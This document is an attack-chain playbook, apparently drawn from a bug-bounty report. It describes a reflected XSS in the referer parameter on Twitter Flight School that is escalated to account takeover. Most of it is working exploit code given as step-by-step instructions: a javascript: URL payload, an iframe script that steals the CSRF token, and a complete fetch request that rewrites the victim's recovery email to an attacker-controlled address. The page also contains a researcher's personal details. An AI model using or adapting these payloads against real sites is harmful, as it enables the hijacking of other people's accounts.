

# Reflected XSS in Referer Parameter Leading to Account Takeover

Multi-stage attack chain demonstrating exploitation of a reflected XSS vulnerability in the referer parameter on Twitter Flight School, escalating to full account takeover through CSRF token theft and unauthorized email updates.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for payload injection and execution

### Target Environment

- Web platform: Twitter Flight School (https://www.twitterflightschool.com)
- Required services/ports: HTTPS on port 443
- Network access requirements: Internet access to the target domain

### Initial Access Requirements

- No prior credentials needed; victim must visit the crafted URL
- Attacker must craft a malicious link with referer parameter
- Victim interaction (e.g., clicking a button) required to trigger

## Detailed Attack Procedures

### Step 1: Inject XSS Payload via Referer Parameter
procedure: [[procedures/Trigger-Reflected-XSS-via-Referer-Parameter]]

**Objective**: Deliver the malicious URL to the victim to set up the reflected XSS in the referer parameter.

**Instructions**: Craft a URL with the javascript: payload in the referer parameter and trick the victim into navigating to it. For example, use https://www.twitterflightschool.com/student/award/[ID]?referer=javascript:alert(document.domain).

**Expected Output**: The page loads with the referer reflected into an <a> tag, ready for execution on interaction.

**Success Indicators**:
- Payload appears in the page source as href="javascript:alert(document.domain)"
- No immediate execution until interaction

### Step 2: Trigger XSS Execution on User Interaction
procedure: [[procedures/Execute-XSS-Payload-on-Page-Interaction]]

**Objective**: Cause the victim to interact with the page, executing the JavaScript payload.

**Instructions**: Instruct the victim (or simulate) to click the 'X' button in the top left, which triggers the <a> tag's href.

**Expected Output**: Alert box showing "www.twitterflightschool.com" or arbitrary JS execution.

**Success Indicators**:
- JavaScript alert fires
- Console logs confirm domain access

### Step 3: Steal CSRF Token using Iframe
procedure: [[procedures/Steal-CSRF-Token-using-Iframe]]

**Objective**: Use the XSS to load an iframe and extract the CSRF authenticity_token for further exploitation.

**Instructions**: Inject the JavaScript command to create an iframe loading /widgets/twitter_registrations/edit and extract the token after a delay using [[commands/Steal-CSRF-Token-via-Iframe]]:

```javascript
document.body.innerHTML="<iframe id=ifr src=/widgets/twitter_registrations/edit></iframe>";
setTimeout(function(){
 alert(ifr.contentDocument.getElementsByName("authenticity_token")[0].value);
},1337);
```

**Expected Output**: Alert displaying the CSRF token value.

**Success Indicators**:
- Iframe loads without errors
- Token value is alerted and captured

### Step 4: Update Recovery Email for Account Takeover
procedure: [[procedures/Update-Recovery-Email-for-Account-Takeover]]

**Objective**: Use the stolen token to send a POST request updating the user's recovery email to attacker-controlled.

**Instructions**: Execute the full payload with interval-based token extraction and fetch request using [[commands/Perform-Account-Takeover-Fetch]]:

```javascript
document.body.innerHTML="<iframe id=ifr src=https://www.twitterflightschool.com/widgets/twitter_registrations/edit></iframe>";
var point=0;
csrf=setInterval(function(){
 try{
 var csrf_token = ifr.contentDocument.getElementsByName('authenticity_token')[0].value;
 if(csrf_token){
 console.log("[OK] CSRF TOKEN => "+encodeURIComponent(csrf_token))
 ifr.contentWindow.fetch("https://www.twitterflightschool.com/widgets/twitter_registrations", {
 "credentials": "include",
 "headers": {
 "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0",
 "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
 "Accept-Language": "pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3",
 "Content-Type": "application/x-www-form-urlencoded",
 "Upgrade-Insecure-Requests": "1"
 },
 "referrer": "https://www.twitterflightschool.com/widgets/twitter_registrations/edit",
 "body": "utf8=%E2%9C%93&_method=put&authenticity_token="+encodeURIComponent(csrf_token)+"&user%5Bpicture_attributes%5D%5Btarget%5D=https%3A%2F%2Fcdn.exceedlms.com%2Fuploads%2Fresource_user_pictures%2Ftargets%2F1386869%2Foriginal%2F3cimg-src-3dx-3e.jpeg%3FPolicy%3DeyJTdGF0ZW1lbnQiOlt7IlJlc291cmNlIjoiaHR0cHM6Ly9jZG4uZXhjZWVkbG1zLmNvbS91cGxvYWRzL3Jlc291cmNlX3VzZXJfcGljdHVyZXMvdGFyZ2V0cy8xMzg2ODY5L29yaWdpbmFsLzNjaW1nLXNyYy0zZHgtM2UuanBlZyIsIkNvbmRpdGlvbiI6eyJEYXRlTGVzc1RoYW4iOnsiQVdTOkVwb2NoVGltZSI6MTU4ODg5MjA0Nn19fV19%26Signature%3DUOaxR9eCgoEFhlzyy-6VtVqgj0oj%7E9LgIkeLIyUq4n2h8daR%7EsEsd1ghoJW1P369cHPTBus41bvLB8Vrob9ITkUVib0PIraTwZSv%7Eei51-TV9UpqQRVR51zC3-z62sqQtoXXsDa85vn%7EfEC%7E6uiLtx0VyZ3vECr8GxAG9sVuW7T2UYgeL00yTEtDhyd9mAPFq2%7E5A2lxzNrIzGCQPzlS4hk1RFW8lNcOAL2i2MzusqY8neX-l5QTh%7ECH6gEG73bnvDQZOvHyLF42WprG7kgyAzWHO3M9fI3FXxeYo-T1f2eAp-ggOf%7EVdcZqJiUHM6iUvmDbyQRe5kcAsblfjjU-Bg__%26Key-Pair-Id%3DAPKAJINUZDMKZJI5I6DA&user%5Bpicture_attributes%5D%5Bid%5D=1386869&login_to=&user%5Bemail%5D=guilhermeassmannn%40gmail.com&user%5Bcustom_a%5D=keerok%40protonmail.com&user%5Bfirst_name%5D=Guilherme&user%5Blast_name%5D=Assmann&user%5Bcountry_code%5D=BR&user%5Btzid%5D=Brasilia&user%5Blocale%5D=en-GB&user%5Bcustom_b%5D=Other&user%5Bcustom_c%5D=&custom_c_key_select=&custom_c_value_select=&custom_c_other_key=&custom_c_other=&user%5Bcustom_d%5D=&custom_d_key_select=&custom_d_other=&user%5Bcustom_h%5D=pentestz&user%5Bcustom_n%5D=&user%5Bcustom_o%5D=&user%5Btwitter_handle%5D=k33r0k&user%5Bcustom_r%5D=k33r0k&user%5Bcustom_s%5D=New+on+platform%3A+never+advertised+and+would+like+to+start&user%5Bcustom_t%5D=Yes&user%5Bcustom_q%5D=Yes&commit=Save",
 "method": "POST",
 "mode": "cors"
}).then(function(x){
 console.log("[OK] REQUEST");
 console.log(x.status);
 clearInterval(csrf);
 });
 }
 }catch(e){
 console.log("not yet");
 }
},1337)
```

**Expected Output**: Console logs show successful token extraction and POST request with status 200 or similar.

**Success Indicators**:
- Recovery email updated to attacker-controlled (e.g., keerok@protonmail.com)
- Interval clears after successful fetch

## Attack Chain Summary

### Key Achievements

1. Successful XSS execution via referer parameter
2. CSRF token theft enabling unauthorized requests
3. Full account takeover by changing recovery email

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[JavaScript]] JavaScript

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution
- [[Collection]] Collection

---

*Last updated: 2023-10-01T00:00:00Z*
